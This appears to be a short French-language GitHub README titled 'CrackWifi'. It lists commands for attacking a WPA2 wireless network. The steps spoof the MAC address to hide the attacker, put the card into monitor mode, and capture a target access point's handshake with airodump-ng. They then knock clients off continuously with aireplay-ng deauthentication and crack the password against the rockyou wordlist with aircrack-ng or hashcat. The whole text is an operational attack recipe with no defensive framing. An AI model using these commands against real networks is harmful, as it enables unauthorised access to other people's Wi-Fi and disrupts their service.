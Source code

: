 # CrackWifi

airodump-ng

aireplay-ng 

aircrack-ng 

hashcat

iwconfig

# desactiver carte wifi pour changer l'adresse MAC (se cacher)
ifconfig wlan0 down 

changement d'adresse MAC
macchanger –m XX:XX:XX:XX:XX:XX wlan0

# reactiver carte wifi
ifconfig wlan0 up

# passer la carte en mode monitor
iwconfig wlan0 mode monitor 
airmong-ng start wlan0

# scanner réseaux disponibles 
airodump-ng -–encrypt XX wlan0

# ecouter et desauthentifier dans 2 terminaux (tâches fait en 
airodump-ng -w hack1 -c 2 --bssid xx:xx:xx:xx:xx:xx wlan0mon
-c 2 = channel 
hack1 = les fichiers qui vont être créés
xx:xx:xx:xx:xx:xx = mac de la borne cible

# desauthentifier 
aireplay-ng --deauth 0 -a xx:xx:xx:xx:xx:xx wlan0mon
xx:xx:xx:xx:xx:xx = mac de la borne cible

# crack mot de passe
aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt....

# Bonus possible d'utiliser hashcat mais l'extension cap2hccapx est nécessaire:
present dans le paquet hashcatutils
conversion du fichier cap en hccapx pour hashcat
cap2hccapx info.cap WPA2_capture.hccapx
puis execute hashcat en spécifiant le "mask" de chiffrement et enregistrement dans un fichier dans l'exemple WPA2_resolved
hashcat -m 2500 -a 6 -O -o WPA2_resolved.txt WPA2_capture.hccapx D:\Dictionnaires\ALL\dico_1.txt D:\Dictionnaires\ALL\dico_2.txt
